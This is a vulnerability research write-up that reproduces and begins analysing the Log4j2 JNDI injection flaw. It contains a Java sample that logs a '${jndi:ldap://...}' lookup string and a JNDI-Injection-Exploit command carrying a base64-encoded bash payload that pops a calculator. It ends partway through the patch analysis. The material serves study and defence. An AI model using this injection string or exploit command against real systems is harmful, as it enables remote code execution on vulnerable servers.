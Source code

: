 Sample code for adding vulnerability environment after the project is created:

```java
package org.h3rmesk1t.Log4j2;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/10 5:32 pm
 */
public class Vulnerability {

    private static final Logger logger = LogManager.getLogger();

    public static void main(String[] args) {

        logger.error("${jndi:ldap://127.0.0.1:1389/ladr0g}");
    }
}
```


# Vulnerability reappears
First start the malicious server and return malicious code to the `ldap`/`rmi` call. Here I used the `JNDI` injection tool to generate it directly.

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,b3BlbiAtYSBDYWxjdWxhdG9y}|{base64,-d}|{bash,-i}" -A "127.0.0.1"
```

Then use the `logger.info` method to trigger the vulnerability and pop up the calculator.

![](./images/2.png)

# Vulnerability Analysis
## Vulnerability Point Confirm
First check the [official revision information] (https://issues.apache.org/jira/projects/LOG4J2/issues/LOG4J2-3201?filter=allissues). You can know that the exploitation method of the vulnerability is to implement `RCE` through LDAP injection in `JNDI`. After viewing the patch change record, you can see that it has modified the judgment of the `lookup` function.

![](./images/3.png)

![](./images/4.png)

## Key Point Analysis
As can be seen from the official documentation of `JNDI lookup`, `JndiLookup` allows variables to be retrieved through `JNDI` and then passed to the example. In `Log4j2`, the usage format of `JNDI` is: `${jndi:JNDIContent}`
